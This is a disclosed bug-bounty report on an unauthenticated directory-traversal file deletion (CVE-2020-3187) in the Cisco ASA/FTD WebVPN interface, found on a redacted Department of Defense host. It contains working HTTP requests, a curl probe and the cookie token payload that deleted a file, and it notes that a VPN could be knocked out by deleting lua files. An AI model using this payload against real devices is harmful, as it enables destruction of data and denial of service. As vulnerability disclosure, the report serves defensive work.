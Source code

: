 # Unauthenticated Arbitrary File Deletion "CVE-2020-3187" in █████

## Report Details
- **Report ID**: 1026265
- **URL**: https://hackerone.com/reports/1026265
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-11-04T22:22:37.383Z
- **Disclosed**: 2020-11-23T18:01:30.239Z

## Reporter
- **Username**: emad777
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**

A vulnerability in the interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and obtain read and delete access to sensitive files.

**Description:**

Vulnerable host:
`██████████`


## Impact

An exploit could allow the attacker to view or delete arbitrary files on the system.

## Step-by-step Reproduction Instructions

1.Identifying vulnerable host by send request to /+CSCOE+/session_password.html.

curl -skiL "███/+CSCOE+/session_password.html"

```
GET /+CSCOE+/session_password.html HTTP/1.1
Host: ███████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,ar;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: webvpnlogin=1; webvpnLang=en
Upgrade-Insecure-Requests: 1
```

If the target is vulnerable, the response header will display webvpn header, like:
The request gave me the following response

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 0
Cache-Control: no-cache
Pragma: no-cache
Connection: Keep-Alive
Date: Wed, 04 Nov 2020 21:40:44 GMT
X-Frame-Options: SAMEORIGIN
webvpn:
```

**2.Perform exploits to delete files by adding token in cookie header request.**

For example, I wanted to delete this (██████/+CSCOU+/csco_logo.gif) file.
That did not work because sometimes logo.gif/png has permission issues so try this "█████/+CSCOE+/blank.html"

You can also delete the file "/+CSCOE+/blank.html" (an empty HTML file), as it might be a problem with the permission of the custom logo file sometimes logo.gif has permission issue so we might not be able to delete but we can delete other files

Request:

```GET /+CSCOE+/blank.html HTTP/1.1
Host: ██████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,ar;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: webvpnlogin=1; webvpnLang=en
Upgrade-Insecure-Requests: 1```

Response:

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Pragma: no-cache
Connection: Keep-Alive
Date: Wed, 04 Nov 2020 21:54:48 GMT
X-Frame-Options: SAMEORIGIN
Content-Length: 13
<HTML></HTML>
```

**3. So I exploited the CVE and deleted the blank file. As following:**

Request:

```
GET /+CSCOE+/session_password.html HTTP/1.1
Host: █████████
Cookie: token=../+CSCOE+/blank.html
User-Agent: curl/7.47.0
Accept: */*
```

Response:

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 0
Cache-Control: no-cache
Pragma: no-cache
Connection: Keep-Alive
Date: Wed, 04 Nov 2020 21:55:02 GMT
X-Frame-Options: SAMEORIGIN
webvpn:
 ```

File deleted successfully:

`curl -Ik ████/+CSCOE+/blank.html`
```
HTTP/1.1 404 Not Found
Cache-Control: no-cache
Pragma: no-cache
Connection: Close
Date: Wed, 04 Nov 2020 21:55:08 GMT
X-Frame-Options: SAMEORIGIN

File not found
```

Warning : This can lead to a denial of service (DOS) on the VPN by deleting the lua source code files from the file system, which will break the WebVPN interface until the device is rebooted.

## Suggested Mitigation/Remediation Actions

Upgrade the ASA software version per the referenced advisory. This advisory is available at the following link:
- https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-path-JE3azWw43

## Impact

*High - This vulnerability allows the attacker to delete files within the web services file system.*

## Attachments
No attachments
